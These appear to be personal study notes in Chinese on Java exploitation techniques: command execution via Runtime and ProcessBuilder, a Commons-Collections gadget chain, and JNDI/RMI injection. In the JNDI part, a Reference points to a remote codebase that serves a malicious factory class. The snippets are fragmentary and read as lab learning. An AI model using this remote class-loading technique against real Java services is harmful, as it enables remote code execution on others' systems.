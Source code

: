 第一行就直接对对象输出到流里面了

![image-20220812131912225](image/image-20220812131912225.png)

创建一个空的字节，然后将whoami这个流write到bytes中，最后把这个bytes搞到输出流里面就能看见了

```java
whoami.read(bytes)   //取长度
```

### 命令执行

Runtime

ProcessBuilder

ProcessImpl   Runtime的底层调用，不过需要反射

在windows中，命令前缀要加`cmd /c`

### CC

![CC链](image/CC链.jpg)



### JNDI

1.8_201版本太高无法信任工厂，导致无法通过JNDI的rmi远程加载类

相比较RMI多了这个

```java
InitialContext initialContext = new InitialContext();   构造一个初始上下文
```

高版本中还需要自己绑定注册中心，否者会报错



对于client中还需要继承他的借口，不然调用不到方法。

```java
rmi stub = (rmi) registry.lookup("hello");
```



Reference类

```
Reference reference = new Reference("test", "test", "http://127.0.0.1/7777");
//类名   工厂名    地址   
```

![image-20220804171647053](image/image-20220804171647053.png)

主要是这里绑定了恶意工厂，恶意类，不要写在包里面，找不到要报错

如果使用calc这个类的话，本地直接找到了，所以不能加载恶意codebase，所以要移除工程夹

![image-20220804192219113](image/image-20220804192219113.png)
